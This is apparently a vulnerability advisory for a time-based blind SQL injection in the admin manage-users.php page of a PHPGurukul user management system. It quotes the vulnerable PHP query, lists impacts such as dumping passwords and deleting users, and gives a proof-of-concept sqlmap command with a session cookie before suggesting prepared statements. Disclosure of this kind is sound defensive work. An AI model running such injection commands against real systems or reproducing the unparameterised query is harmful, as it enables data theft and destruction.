

# 📌 Time-Based SQL Injection in manage-users.php of User Registration & Login and User Management System With Admin Panel <= v3.3


**👨‍💻 BUG Author:**  

### 4m3rr0r

---

## 📦 Product Information

- **Vendor Homepage:** [https://phpgurukul.com](https://phpgurukul.com)  
- **Software Link:** [https://phpgurukul.com/user-registration-login-and-user-management-system-with-admin-panel/](https://phpgurukul.com/user-registration-login-and-user-management-system-with-admin-panel/)  
- **Affected Version:** <= v3.3  
- **BUG Author:** 4m3rr0r  
 

---

## 🛠 Vulnerability Details

### 🧨 Vulnerability Type

**SQL Injection** (Time-Based Blind)  
**CWE ID:** [CWE-89](https://cwe.mitre.org/data/definitions/89.html)

---

### 🧬 Root Cause

The vulnerable code directly interpolates unvalidated user input (`$_GET['id']`) into a SQL query without using prepared statements, leading to SQL injection.

```php
$adminid=$_GET['id'];
$msg=mysqli_query($con,"delete from users where id='$adminid'");
```

---

### ⚠️ Impact

An authenticated attacker can exploit the `id` parameter in `manage-users.php` to:

- Enumerate the database
- Dump sensitive data (users, passwords)
- Delete arbitrary users
- Escalate privileges (via UNION SELECT or stacked queries)

---

### 📋 Description

The application does not sanitize the `id` parameter in the admin panel (`manage-users.php`). This allows attackers to inject arbitrary SQL queries using time-based blind techniques to bypass filters and extract information from the database.

---

### 🔬 Proof of Concept

A logged-in attacker can run the following SQLMap command:

```bash
sqlmap -u "http://192.168.16.109/loginsystem/admin/manage-users.php?id=1" \
--cookie="PHPSESSID=pakmg0q2gnmjag2514g76fdmtd" \
--risk=3 --level=5 --dbs
```



---

## 🛡 Suggested Remediation

Replace dynamic SQL queries with parameterized statements. Example using `mysqli_prepare`:

```php
$stmt = $con->prepare("DELETE FROM users WHERE id = ?");
$stmt->bind_param("i", $adminid);
$stmt->execute();
```

---

## 🔐 Security Recommendations

- Use prepared statements or ORM (Object Relational Mapper)
- Enforce strict input validation (e.g., numeric only for `id`)
- Apply least privilege principle to DB user accounts
- Enable logging, monitoring, and regular code reviews

---

## 📚 References

- [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)

